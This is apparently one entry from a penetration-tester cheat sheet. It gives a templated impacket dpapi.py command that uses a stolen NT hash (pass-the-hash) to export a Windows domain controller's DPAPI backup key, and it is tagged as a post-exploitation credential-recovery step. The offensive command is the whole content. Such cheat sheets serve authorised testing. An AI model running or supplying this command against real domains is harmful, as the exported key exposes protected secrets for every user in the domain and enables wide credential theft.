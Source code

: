 # dpapi (imp)

% impacket-secrets, windows, smb, 445

## dump the domain backup key
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
dpapi.py backupkeys --export -hashes <nt_hash>  -t  <domain_fqdn>/<user|Administrator>@<dc_ip>
```
